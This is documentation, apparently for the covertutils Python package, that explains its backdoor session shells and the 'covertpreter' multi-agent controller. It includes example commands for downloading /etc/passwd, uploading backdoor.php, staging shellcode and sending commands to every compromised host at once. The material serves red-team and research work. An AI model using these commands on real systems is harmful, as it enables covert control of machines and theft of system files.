 

Shells & SubShells
==================

When a class from the :mod:`covertutils.shells` family is used to hook and interact with the :class:`Handler` object, several built-in features can be used.


The shells provided by the package are `(thank god)` **<Ctrl-C> resistant**, and modular, in a sense that no single shell interface accepts `every command`.

As the architecture of a `covertutils` backdoor implies, all data flows through a virtual `stream` that is identified by an OTP mechanism (see :ref:`streamidentifier_component`). The other side `(Agent)` can handle data from **different streams in different ways**.



The shell that spawns when the :meth:`covertutils.shell.BaseShell.start` method is used is almost a dummy. It runs no commands from itself. It is there to provide the `stream menu` and handle `exit commands`.
This design makes easier the creation of custom command suites, `without expanding` the parent classes (but `inheriting` from them).

Enough subshells have been created for an everyday backdoor (`shell`, `file transfer`, even `shellcode execution` see :ref:`stages_page`), but the ability to create and integrate new ones along with the existing is given through the use of a parent shell approach.


The *Session Shell*
*******************

Stream Menu
+++++++++++


The parent shell spawns the `stream menu` with a `<Ctrl-C>` - ``KeyboardInterrupt``. From there, the user can jump to SubShells to access real commands (either `OS` or `Python` or whatever is loaded at the given time).

.. code:: bash

	(127.0.0.1:58504)>
	Available Streams:
		[ 0] - control
		[ 1] - python
		[ 2] - os-shell
		[ 3] - file
		[ 4] - stage
		[99] - Back
	Select stream:


Dispatching commands with ``"!"`` `(exclamation mark)`
++++++++++++++++++++++++++++++++++++++++++++++++++++++

From the `Parent Shell` it is possible to issue commands to any SubShell just by prepending the ``"!"`` and the `stream name` before the actual command.

.. code:: bash

	(127.0.0.1:58504)> !python print "Dispatching to Python Stream"
	Dispatching to Python Stream


Typing only the ``"!"`` and the `stream name` will jump to the `stream's` SubShell.

.. code:: bash

	(127.0.0.1:58504)> !python
	[python] >>>

This way SubShells with only one or two commands can be used without directly accessed.

.. code:: bash

	(127.0.0.1:58504)> !file download /etc/passwd

.. code:: bash

	(127.0.0.1:58504)> !stage fload my_custom_module.py

.. code:: bash

	(127.0.0.1:58504)> !control reset


The ``"!"`` can be used from SubShells too, making file transfers handy:

.. code:: bash

	[os-shell]> ls
	index.html

	[os-shell]> !file upload backdoor.php
	File uploaded succesfully!

	[os-shell]> ls
	index.html
	backdoor.php


Exiting
+++++++

Exiting the `Parent Shell` with ``exit`` or ``q`` or ``quit`` will make the :meth:`covertutils.shell.BaseShell.start` method to return. This design is preferred from the ``sys.exit(0)`` approach, as it leaves open the possibility of a `multi-shell`, used for session management purposes, providing features like the ``session -i`` of `meterpreter`.



.. note :: Also the :class:`covertutils.shell.impl.StandardShell` class and derivatives contain a ``sysinfo`` class variable, populated when the ``!control sysinfo`` command is first run. This variable is accessible from outside the class, providing information of the controlled system. This can be used to create a brief line similar to `meterpreter`'s ``session -l`` command.


The ``covertpreter`` Session Shell aggregator
**********************************************

Controlling a single host is **rarely the case though**! Backdoor tools are frequently expanded to RATs (Remote Administration Tools), as there are needs for multiple *Agents* being controlled *at the same time*.

``covertutils`` provides the ``covertpreter`` shell under ``covertutils.shells.multi`` subpackage, to address the need of a **a shell to rule them all**.


Session Management
++++++++++++++++++

Basically, ``covertpreter`` is a class maintaining several implementations of ``covertutils.shells.BaseShell`` implementation, under an internal data structure,
dispatching commands to each of them, and letting the user to '*jump*' into a currently running session.

.. code :: bash

	covertpreter> session -l
		Current Sessions:
	0) 28d4a1a19dcb924c - <class '__main__.MyHandler'>
	System Info: N/A

	1) faee224f3f61e1d7 - <class '__main__.MyHandler'>
	System Info: N/A

	covertpreter> session -i 1
	(covertutils v0.3.4)>
	(covertutils v0.3.4)> !control identity
	Sending 'ID' control command!
	0511ddb0
	(covertutils v0.3.4)>
	<Ctrl-C>
	covertpreter> session -s 28d4a1a19dcb924c
	(covertutils v0.3.4)> !control identity
	Sending 'ID' control command!
	(covertutils v0.3.4)> d72b5e5e
	<Ctrl-C>
	covertpreter>


It also possible to command all running sessions **at-once**. Or select the Sessions to dispath a command using their IDs.

.. code :: bash

	covertpreter> control reset
	No sessions selected, ALL sessions will be commanded
	Are you sure? [y/N]: y
	'!control reset' -> <28d4a1a19dcb924c>
	Reseting handler
	Sending 'RST' control command!
	'!control reset' -> <faee224f3f61e1d7>
	Reseting handler
	Sending 'RST' control command!
	OK
	OK
	covertpreter>

Selectively executing commands:

.. code :: bash

	covertpreter> 28d4a1a19dcb924c control sysinfo
	'!control sysinfo' -> <28d4a1a19dcb924c>
	Sending 'SI' control command!
	General:
		Host: hostname
		Machine: x86_64
		Version: #1 SMP Debian 4.12.6-1kali6 (2017-08-30)
		Locale: en_US-UTF-8
		Platform: Linux-4.12.0-kali1-amd64-x86_64-with-Kali-kali-rolling-kali-rolling
		Release: 4.12.0-kali1-amd64
		System: Linux
		Processor:
		User: unused

	Specifics:
		Windows: ---
		Linux: glibc-2.7
	covertpreter>



The ``sysinfo`` information is stored for later usage in the shell which it received it.

The Sessions can be listed with (you guessed it) ``-l[v]``:

.. code :: bash

	covertpreter> session -l
		Current Sessions:
	0) 28d4a1a19dcb924c - <class '__main__.MyHandler'>
	hostname - Linux-4.12.0-kali1-amd64-x86_64-with-Kali-kali-rolling-kali-rolling - en_US-UTF-8 - unused

	1) faee224f3f61e1d7 - <class '__main__.MyHandler'>
	System Info: N/A

``-v`` also lists the available streams/extensions per session:

.. code :: bash

	covertpreter> session -lv
		Current Sessions:
	0) 28d4a1a19dcb924c - <class '__main__.MyHandler'>
	hostname - Linux-4.12.0-kali1-amd64-x86_64-with-Kali-kali-rolling-kali-rolling - en_US-UTF-8 - unused
		-> control
		-> python
		-> os-shell

	1) faee224f3f61e1d7 - <class '__main__.MyHandler'>
	System Info: N/A
		-> control
		-> python
		-> os-shell


The ``handler`` command of ``covertpreter``
+++++++++++++++++++++++++++++++++++++++++++

Here is where the **magic starts!**
As there is no actual network server behind ``covertutils``, and networking is intentionally left to the developer, adding sessions doesn't depend on server management/sockets/NATs etc...

Also a ``covertpreter`` instance only recognises implementations of `covertutils.shells.BaseShell`. So adding a session means adding another ``BaseShell`` object in its data structure.

So, for a freshly writtent *Handler* file, say ``handler.py``, which invokes a ``BaseShell`` derived object, named ``shell``,
and calls the ``shell.start()`` to start interacting, there is a way to be added to an already running ``covertpreter`` process.


.. code :: bash

	covertpreter> handler add -h
	usage: handler add [-h] [--shell SHELL] SCRIPT [ARGUMENTS [ARGUMENTS ...]]

	positional arguments:
	  SCRIPT                The file that contains the Handler in Python
	                        'covertutils' code
	  ARGUMENTS             The arguments passed to the Python 'covertutils'
	                        handler script

	optional arguments:
	  -h, --help            show this help message and exit
	  --shell SHELL, -s SHELL
	                        The argument in the Python code that contains the
	                        'covertutils.shell.baseshell.BaseShell' implementation

That basically means that by using a command like the following:

.. code :: bash

	covertpreter> handler add --shell shell_implementation handler.py  <arguments to handler script>

The object defined in the ``handler.py`` will get listed to the ``sessions -l`` list of ``covertpreter``,
after running the Python code found in ``handler.py`` with ``<arguments to handler script>`` as arguments.

.. note :: The ``handler.py`` won't pollute the main script's `Namespace`. It is executed in a different `Namespace` ``dict``.


The new session will be directly usable, without ``covertpreter`` depending on its transfer method, or internals...

**That's what we get if we completely abstract the networking from the backdoor development!**


Have fun with ``covertpreter``!
